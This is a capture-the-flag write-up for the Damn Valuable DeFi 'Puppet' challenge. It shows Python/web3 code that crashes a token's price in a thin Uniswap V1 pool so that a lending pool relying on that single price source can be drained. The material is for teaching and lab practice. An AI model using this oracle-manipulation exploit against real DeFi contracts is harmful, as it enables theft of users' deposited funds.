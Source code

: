 ## Puppet

### Challenge description

> There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
> There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.
>
> Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

### Solution

For this challenge there's a huge vulnerability in the PuppetPool contract where it only computes the price of the token from one source, the Uniswap V1 pool of DVT/ETH tokens.

If there's only one price source, the source can be easily manipulated, as we have 100 times more tokens than the Uniswap V1 pool, thus allowing us to push the price way down, to the point where it's possible to drain almost all the ETH in the uniswap pool.

To solve the challenge, first we have to approve the tokens for trade on the Uniswap V1 pool of DVT/ETH tokens:

```python
token.approve(
    uniswap_exchange.address, 
    2**256 - 1, 
    _fromAttacker
)
```

Here I used a pseudo-infinite approval (usually just called infinite approvals in DeFi), though this is not really necessary.

Then drain the pool of as much ETH as we can get in order to push the price of DVT tokens to as low as we can get it:

```python
uniswap_exchange.tokenToEthSwapOutput(
    ether_to_wei(9.9), 
    ether_to_wei(1000), 
    web3.eth.get_block('latest').timestamp * 2, 
    _fromAttacker
)
```

Then calculate the required deposit of ETH in order to borrow *all* the tokens in the lending pool by calling `calculateDepositRequired()`:

```python
deposit_required = lending_pool.calculateDepositRequired(ether_to_wei(100000))
```

And finally, borrow all the tokens sending the value required assigned to the `deposit_required` variable:

```python
lending_pool.borrow(
    ether_to_wei(100000), 
    _fromAttacker | value_dict(deposit_required)
) 
```

This will effectively take all the tokens in the lending pool.
